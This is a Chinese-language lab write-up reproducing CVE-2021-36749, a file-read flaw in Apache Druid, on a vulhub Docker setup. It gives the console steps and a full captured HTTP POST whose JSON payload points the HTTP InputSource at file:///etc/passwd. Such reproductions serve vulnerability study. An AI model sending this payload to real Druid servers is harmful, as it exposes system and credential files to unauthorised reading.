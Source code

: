 ## CVE-2021-36749

> ID:bx33661



[TOC]

### 介绍

> In the Druid ingestion system, the InputSource is used for reading data from a certain data source. However, the HTTP InputSource allows authenticated users to read data from other sources than intended, such as the local file system, with the privileges of the Druid server process. This is not an elevation of privilege when users access Druid directly, since Druid also provides the Local InputSource, which allows the same level of access. But it is problematic when users interact with Druid indirectly through an application that allows users to specify the HTTP InputSource, but not the Local InputSource. In this case, users could bypass the application-level restriction by passing a file URL to the HTTP InputSource. This issue was previously mentioned as being fixed in 0.21.0 as per CVE-2021-26920 but was not fixed in 0.21.0 or 0.21.1.
>
> ------
>
> 在Druid摄取系统中，InputSource用于从某个数据源读取数据。但是，HTTP InputSource允许经过身份验证的用户以Druid服务器进程的权限从预期以外的其他来源 (例如本地文件系统) 读取数据。当用户直接访问Druid时，这不是特权提升，因为Druid还提供本地InputSource，它允许相同级别的访问。但是，当用户通过允许用户指定HTTP InputSource而不是本地InputSource的应用程序间接与Druid交互时，这是有问题的。在这种情况下，用户可以通过将文件URL传递给HTTP InputSource来绕过应用程序级别的限制。此问题以前提到过，根据CVE-2021-26920在0.21.0中修复，但在0.21.0或0.21.1中未修复。



### 环境复现

需要本地安装docker环境和git环境

> 这里选择复现平台：https://github.com/vulhub/vulhub
>
> ![Vulhub](https://github.com/vulhub/vulhub/raw/master/.github/assets/banner.png)

```
git clone https://github.com/vulhub/vulhub.git
cd apache-druid
cd CVE-2021-25646
docker docker-compose up -d
```

![](https://gitee.com/bx33661/image/raw/master/path/image-20241015222003313.png)



### POC

进入容器：我这里IP是：`http://localhost:8888/`,进入了**druid**

![image-20241015223158685](https://gitee.com/bx33661/image/raw/master/path/image-20241015223158685.png)

点击*Load data* ，选择*HTTP(s)*

![image-20241015223343033](https://gitee.com/bx33661/image/raw/master/path/image-20241015223343033.png)

执行如下参数，验证文件读取：

- Source type : `http`
- URIs : `file:///etc/passwd`

![image-20241015222927290](https://gitee.com/bx33661/image/raw/master/path/image-20241015222927290.png)

这里是用`Yakit` 抓包

![image-20241015222841981](https://gitee.com/bx33661/image/raw/master/path/image-20241015222841981.png)

表内容为：

```http
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: localhost:8888
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Content-Type: application/json;charset=UTF-8
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Referer: http://localhost:8888/unified-console.html
Sec-Fetch-Dest: empty
Accept: application/json, text/plain, */*
Origin: http://localhost:8888
Sec-Fetch-Mode: cors
Content-Length: 423

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

执行入口在 ： `"uris":["file:///etc/passwd"]}`



### 参考文档

- https://xz.aliyun.com/t/12555?time__1311=GqGxuiD%3DGQKmqGN4eeqBIc06ovpuAbD#toc-6
- https://nvd.nist.gov/vuln/detail/CVE-2021-36749